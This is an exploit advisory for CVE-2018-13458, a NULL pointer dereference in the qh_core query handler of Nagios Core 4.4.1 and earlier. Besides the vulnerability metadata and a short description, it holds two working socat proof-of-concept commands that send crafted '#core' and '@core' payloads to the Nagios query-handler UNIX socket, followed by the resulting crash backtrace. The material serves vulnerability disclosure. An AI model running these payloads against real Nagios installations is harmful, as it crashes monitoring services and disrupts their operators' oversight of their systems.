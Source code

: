 Exploit Title: Nagios Core qh_core Denial of Service<br>
Date: 2018-07-09<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.nagios.org/<br>
Software Link: https://www.nagios.org/downloads/nagios-core/<br>
Version: 4.4.1 and earlier<br>
Tested on: 4.4.1<br>
CVE : CVE-2018-13458<br>
<br>
qh_core in Nagios Core 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attackers to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.<br>
<br>
$ echo -ne “#core\0" | socat unix-connect:./poc/nagios.qh -<br>
$ echo -ne “@core\0" | socat unix-connect:./poc/nagios.qh -<br>
<br>
#0 0x5546bc in qh_core /home/user/nagioscore/base/query-handler.c:408:6<br>
#1 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12<br>
#2 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4<br>
#3 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12<br>
#4 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4<br>
#5 0x7f6887b9882f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#6 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)<br>
<br>
